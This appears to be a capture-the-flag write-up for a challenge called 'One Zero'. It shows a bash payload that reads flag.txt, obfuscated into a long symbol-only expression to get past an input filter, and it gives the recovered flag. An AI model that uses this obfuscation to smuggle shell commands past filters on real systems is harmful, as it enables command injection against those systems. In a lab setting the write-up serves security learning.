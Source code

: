 # One Zero

> You only get one zero... for real this time. ;)

## How to Solve

To solve this you need bash obfuscate method

[Bash Obfuscate Tool](https://gist.github.com/dimasma0305/c3d5d3cac71c8240a491a3010f2372b8)

The original payload is `bash <<< {cat, flag.txt}`

After obfuscate became this 

```${!#} <<< {$\'\\${##}$((${##}<<$((${##}))<<$((${##}))))$((${##}<<$((${##}))^${##}))\\${##}$((${##}<<$((${##}))<<$((${##}))))${##}\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\',$\'\\${##}$((${##}<<$((${##}))<<$((${##}))))$(($((${##}<<$((${##}))^${##}))<<${##}))\\${##}$((${##}<<$((${##}))<<$((${##}))^${##}))$((${##}<<$((${##}))<<$((${##}))))\\${##}$((${##}<<$((${##}))<<$((${##}))))${##}\\${##}$((${##}<<$((${##}))<<$((${##}))))$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))\\$((${##}<<$((${##}))<<$((${##}))^${##}))$(($((${##}<<$((${##}))^${##}))<<${##}))\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}^${##}))${#}\\${##}$(($((${##}<<$((${##}))^${##}))<<${##}))$((${##}<<$((${##}))<<$((${##}))))\',}```

![flag](images/flag.png)

```
flag{5d15f415ef8e8601f80340761c5918be}
```